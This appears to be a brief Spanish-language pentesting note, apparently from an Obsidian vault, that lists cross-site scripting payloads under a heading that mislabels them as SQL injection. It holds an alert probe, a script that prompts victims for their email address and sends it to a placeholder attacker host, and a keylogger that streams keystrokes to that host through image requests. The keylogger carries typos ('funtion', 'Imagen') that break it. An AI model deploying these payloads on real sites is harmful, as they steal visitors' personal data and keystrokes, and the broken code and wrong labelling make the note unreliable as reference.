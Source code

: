 ![[Pasted image 20240208124843.png]]


![[Pasted image 20240208125612.png]]


![[Pasted image 20240208125442.png]]


### SQLI (XSS)

```python
<script>alert("XSS")</script>
```

```python
<script>
var email= prompt("introduce tu correo");

if (email==null || email == ""){
	alert("Es necesario introducir un correo valido para visualizar el post"); 
} else {
	fetch("http://MI-IP:PUERTO/?email=" + email);
}
</script>
```

```python
<script>
	var k = "";
	document.onkeypress = funtion(e){
	e = e 
	k += e.key
	var i = new Imagen();
	i.src = "http://MI-IP:PUERTO/" + k;
	}
</script>
```